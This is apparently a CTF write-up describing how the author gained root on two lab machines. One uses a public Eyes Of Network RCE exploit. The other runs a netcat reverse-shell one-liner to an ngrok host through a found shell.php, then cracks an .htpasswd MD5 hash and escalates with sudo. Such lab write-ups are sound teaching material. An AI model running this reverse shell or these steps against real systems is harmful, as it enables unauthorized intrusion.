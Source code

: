 ```yaml
---
title: CTFs | CTF_INSA_2024 | Realiste
author: BatBato
date: 2024-02-05
categories:
  - CTFs
  - CTF_INSA_2024
  - Realiste
tags:
  - CVE
permalink: /CTFs/CTF_INSA_2024/Realiste/
---
```

# Réaliste
#  Le monitoring est important 

![[realiste1_sujet.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_sujet.png)

In this challenge, we are tasked to become root of the machine. First we go to the login page and can log-in with the credentials `admin:admin` (before that other teams changed it).
![[raeliste1_login.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/raeliste1_login.png)

There is nothing that looks interesting on this website so can search for online available exploits for `Eyes Of Netwok exploit` One common website that list exploits is Exploit-DB:

![[realiste1_exploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_exploit.png)

We can also locally find exploit using the `searchsploit` tool:
![[realiste1_searchsploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_searchsploit.png)




After a bit of digging, I found this exploit [https://github.com/h4knet/eonrce](https://github.com/h4knet/eonrce). For this to work, I only need to specify the website, my IP (here my `ngrok`) and my port. To do so, I launched my listener and my ngrok:

![[realiste1_listener.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_listener.png)

Now I just have to run the exploit:

![[realiste1_final_exploit.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_final_exploit.png)
When heading back to our listener, we have a root shell and we can now improve it :

![[realiste1_root_shell.png.p(https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste1_root_shell.png)ng]]

We can now read the flag at `/root/flag.txt`

# PwnMe

![[PwnMe_sujet.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/PwnMe_sujet.png)

In this challenge, we are also tasked to become root of the machine. 

First, we can enumerate the website using `Gobuster` because there is nothing in the source code or on the page:

![[realiste2_gobuster.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_gobuster.png)

As you can see, there are a lot of results. Lets look at the `assets` folder:
![[realiste2_assets.png.p(https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_assets.png)ng]]


We notice a file called `shell.php`:

![[realiste2_shell.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_shell.png)

As you can see, we can perform basic Linux command execution, lets try to execute a reverse shell command (and not be loud like the other teams uploading a lot of files):
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 4.tcp.eu.ngrok.io 14433 >/tmp/f`

We now have a shell as `www-data`, this user by default don't have rights but as you can see, we can read the content of `/home/debian/.htpasswd`:

![[realiste2_passwd.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_passwd.png)
This gives us the md5 hash of the user `debian` that we can crack offline using `John` or `Hashcat` but also online using `crackstation`:  

![[realiste2_md5.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste2_md5.png)

We now have the password of the user `debian`. We can run `su debian` and provide the found password:

![[realiste_debian.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_debian.png)

As we can see, we can run any commands as `debian`:

![[realiste_sudo_l.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_sudo_l.png)

So we can get a root shell as follows:

![[realiste_sudo.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_sudo.png)

And now we juste have to go to the `/root` folder and recover the flag:

![[realiste_2_flag.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/realiste_2_flag.png)